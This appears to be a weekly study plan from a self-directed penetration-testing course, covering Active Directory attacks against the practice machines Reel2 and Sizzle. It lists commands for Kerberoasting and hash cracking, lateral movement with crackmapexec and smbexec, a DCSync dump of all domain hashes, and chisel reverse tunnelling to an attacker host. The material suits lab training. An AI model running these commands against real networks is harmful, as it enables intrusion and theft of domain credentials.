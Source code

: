 # 🏰 Week 9: Active Directory Pt. II — Kerberoasting, DCSync, Pivoting

> _“You’re not in the domain. You are consuming it. One credential. One path. One pivot at a time.”_

---

## 🎯 Mission Objectives
- Perform Kerberoasting and crack service account hashes
- Execute a DCSync attack to extract full domain password hashes
- Move laterally between machines using cracked credentials
- Use tunnels (e.g., `chisel`) to pivot into internal networks
- Own and fully document complete domain compromise

---

## 🛠 Tools Required
- `GetUserSPNs.py` (Kerberoasting)
- `secretsdump.py` (DCSync)
- `crackmapexec`, `smbexec.py`, `wmiexec.py`
- `BloodHound + neo4j`
- `john`, `rockyou.txt`
- `chisel` (or `ssh -L`)
- (Optional: `Rubeus`, `PowerView.ps1`)

---

## 💻 Capstone Machines

|Machine|Tactics Practiced|
|---|---|
|**Reel2**|Kerberoasting, lateral movement|
|**Sizzle**|DCSync, domain root, pivoting|

---

## 🗓️ Day-by-Day Strategy

---

### 📅 Monday — Kerberoasting

**Goals:**
- Extract TGS tickets for crackable service accounts

**Actions:**

```bash
GetUserSPNs.py -request bluelock.local/user:pass
john spn.hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

**Outcome:**
- Identify cracked user
- Determine where they have access
- Log all output to `kerberoast-log.md`

---

### 📅 Tuesday — Lateral Movement

**Goals:**
- Use newly cracked creds to move between systems

**Actions:**

```bash
crackmapexec smb 10.10.10.0/24 -u user -p pass
smbexec.py domain/user@target
```

**Outcome:**
- Get SYSTEM shell
- Note which machines are accessible with which credentials
- Log lateral steps in `movement-log.md`

---

### 📅 Wednesday — DCSync Attack

**Goals:**
- Extract NTLM hashes from Domain Controller using Replication rights

**Actions:**

```bash
secretsdump.py domain.local/user:pass@dc-ip
```

**Outcome:**
- Retrieve all domain hashes
- Identify `Administrator`, `krbtgt`, and other high-value targets
- Save hashes to `ntdsdump.txt`

---

### 📅 Thursday — Pivoting

**Goals:**
- Reach internal hosts using tunnels

**Actions:**

```bash
# Start server on attacker
./chisel server -p 9001 --reverse

# Client on foothold
chisel client attacker:9001 R:9999:internal:445
```

Or with SSH:

```bash
ssh -L 9999:internal:445 user@pivot
```

**Outcome:**
- Access a service behind firewall or NAT
- Log process and network structure in `pivot-map.md`

---

### 📅 Friday — Root Reel2

**Focus:**
- Crack SPN → reuse → escalate via local misconfig
- Use BloodHound to guide privilege paths

**Deliverables:**
- `reel2-report.md`
- Include: how you got creds, how you moved laterally, how you got root

---

### 📅 Saturday — Root Sizzle

**Focus:**
- DCSync from foothold or after lateral pivot
- Gain full domain controller control

**Deliverables:**
- `sizzle-report.md`
- Include BloodHound path + pivot method used + any additional access

---

### 📅 Sunday — Reflection & Cheat Build

**Goals:**
- Solidify full attack chain into repeatable reference

**Actions:**
- Build `ad-attacks-cheatsheet.md`:
    - Kerberoasting commands
    - DCSync steps
    - Crackmap lateral movement chains
    - Pivoting syntax
- Update:
    - `notes.md`
    - `ego-log.md` with:
        - What broke first?
        - How did you fix it?
        - What will you remember next time?

---

## ✅ Week 9 Final Checklist
-  SPNs extracted and at least one cracked
-  SYSTEM access achieved on at least one machine
-  DCSync performed and hashes extracted
-  Successfully pivoted via tunnel
-  Rooted **Reel2** and **Sizzle**
-  Cheat sheet + 2 full reports written
-  Ego log + notes updated with reflections
